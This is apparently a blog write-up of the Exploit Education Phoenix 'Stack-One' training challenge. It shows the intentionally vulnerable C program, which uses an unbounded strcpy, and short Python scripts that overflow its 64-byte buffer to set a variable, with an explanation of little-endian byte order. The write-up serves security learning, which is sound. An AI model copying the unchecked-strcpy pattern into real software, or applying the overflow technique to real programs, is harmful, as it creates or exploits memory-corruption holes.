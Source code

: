 ```yaml
---
title: Exploit Education > Phoenix > Stack-One
date: '2021-09-25'
draft: false
--- 
```


Stack-One is an ASCII challenge. It's described by the following C code:

```
/*
 * phoenix/stack-one, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x496c5962
 *
 * Did you hear about the kid napping at the local school?
 * It's okay, they woke up.
 *
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  if (argc < 2) {
    errx(1, "specify an argument, to be copied into the \"buffer\"");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, argv[1]);

  if (locals.changeme == 0x496c5962) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n",
        locals.changeme);
  }

  exit(0);
}
```

When looking at the code, the following line catches the eye immediately:

```
strcpy(locals.buffer, argv[1]);
```

Our `main` function uses `strcpy` without validating our inputs size first! If we look at our `locals` struct (of which `buffer` is strcpy's destination), we can see that it also contains the volatile `changeme` variable.

```
struct {
    char buffer[64];
    volatile int changeme;
  } locals;
```



The goal of this challenge is to change `changeme` to `0x496c5962`. The solution to this exercise is similar to the one we used for `Stack-Zero`: We write 64 characters into `argv` at the start of the program and `0x496c5962` after that. We want to write the actual number `0x496c5962` into `changeme`, but our terminal only provides us the with possibility to enter characters. 

One solution for this is to convert `0x496c5962` into an ASCII string. Most ASCII characters fall into a range between 0 and 255, a.k.a 2 to the power of 8 possible characters, or one byte. Since a single hex digit stores 4 bit of information, we split `0x496c5962` into small packets for two digits each. This leaves us with `0x49` `0x6c` `0x59` and `0x62`. Translate that into human readable ASCII characters and you get `IlYb`. 

To solve this challenge, we need to pipe 64 characters into `argv` to pad the buffer into overflowing and `IlYb` to set `changeme` to `0x496c5962`. To do this in an easy way, we can yet again use python four our needs: 

``` 
# stack-one.py

padding = '0' * 64
changeme = 'IlYb'

print(padding + changeme)
```

Note that in python, instead of converting a known string of numbers to ASCII characters, we could just print bytes instead!

``` 
# stack-one.py

padding = '0' * 64
changeme = '\x49\x6c\x59\x62'

print(padding + changeme)
```



Calling `./stack-one $(python3 stack-one.py)` should print the following message:
`> Well done, you have successfully set changeme to the correct value`

```
> ./stack-one $(python3 stack-one.py) 

> Getting closer! changeme is currently 0x62596c49, we want 0x496c5962
```

Huh. Seems like we did indeed change `changeme`, but it's value is *reversed*. To understand what's actually going on here, we have too take yet another look at `Stack-One`'s description:

*Having troubles? How does the endianness of the architecture affect the layout of how variables are laid out?*

Since we are on an x86 linux system, we know that we're using `little-endian`. The following image explains the difference in storage layout:

![Endianness](/assets/Endianness.png)

Values in `little-endian` seem to be *reversed* compared to how a human would naturally read them. To spare programmers the pain of having to write values reversed if their host system is little endian, compilers automatically look up if their system is little endian and emit any value in the approriate format. If we changed `changeme` to `0x496c5962` *inside* `stack-zero-c` and compiled it via `gcc`, our compiler would write it as `0x62596c49` *in memory*, pointing to its "end" `0x49` as the first value. 

Our mistake immediately becomes clear: We naturally write our target value 0x496c5962 from left to right into `stack-one`'s arguments. When its `main` function stores the `argv[1]` value in `locals.buffer`, causing a buffer overflow, it writes `0x496c5962` into `changeme`'s memory location *without any compiler intervention*. In memory, `changeme` reads `0x496c5962` but is read from right to left because our system is little-endian. To correct for this, we just have to reverse `0x496c5962` so it fits inside memory in the correct way.

This can be achieved by changing our little python snippet accordingly:
``` 
# stack-one.py

padding = '0' * 64;
changeme = 'IlYb'[::-1] # short syntax for reversing a string

print(padding + changeme)
```

Using our newly adjusted script, we can see that we successfully solved this challenge!

```
> ./stack-one $(python3 stack-one.py) 

> Well done, you have successfully set changeme to the correct value
```